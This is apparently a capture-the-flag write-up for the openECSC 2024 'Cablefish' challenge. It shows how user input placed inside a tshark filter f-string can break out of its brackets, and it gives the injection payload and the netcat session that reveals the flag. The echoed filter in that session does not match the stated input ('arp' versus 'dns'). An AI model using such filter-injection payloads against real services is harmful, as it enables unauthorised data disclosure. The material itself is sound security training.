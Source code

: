 # Cablefish

## Description

```
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome?

Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic!

This is a remote challenge, you can connect with:

nc cablefish.challs.open.ecsc2024.it 38005
```

## Categories

- `misc`

## Provided Files

- `chall.py`

## Solve Process

When looking at the source code provided, we can observe that this service provides a method to set a `tshark` filter to observe a saved `.pcap` file on the server.

The interesting bit is how the filter is piped into the command string

```py
# --- snip ---

flag = os.getenv('FLAG', 'openECSC{redacted}')

# --- snip ---

filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'
p1 = subprocess.Popen(['tshark', '-r', '/home/user/capture.pcapng', '-Y', sanitized_filter, '-T', 'fields', '-e', 'tcp.payload'], shell=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
stdout, stderr = p1.communicate()
```

So `filter` is basically the raw data that we can pass via `netcat` and it firstly gets split down to a limit of 50 characters and then templated into an `f-string`.

No other sanitization takes place, which is cool since this means we can escap the brackets pretty easily, when just looking at the hardcoded stuff.

```py
f'(({filter}) and (not frame contains "flag_placeholder"))'
```

Since `flag_placeholder` will be substituted with our actual flag, we want to not have it excluded, which the hardcoded string does.
By utilizing some bracket trickery and additional logic operators, we can escape from the bracket confinement.

```t
# define this as our input
input = 'frame contains "flag_placeholder" )) or (( dns'
# which would yield
'(( frame contains "flag_placeholder" )) or (( dns ) and (not frame contains "flag_placeholder"))'
```

This makes the entire hardcoded expression optional since we utilize `or`.

Let's input this to the `netcat` accessible service and check if were correct.

```bash
~ ❯ ncat cablefish.challs.open.ecsc2024.it 38005

# --- snip ---

Please, specify your filter: frame contains "flag_placeholder" )) or (( dns
Loading, please wait...
Evaluating the filter: ((frame contains "flag_placeholder" )) or ((arp) and (not frame contains "flag_placeholder"))

openECSC{5c9dc5b7-2690-428a-9dcf-0aed3a1b3893}.

# --- snip ---
```

And that is a solve.
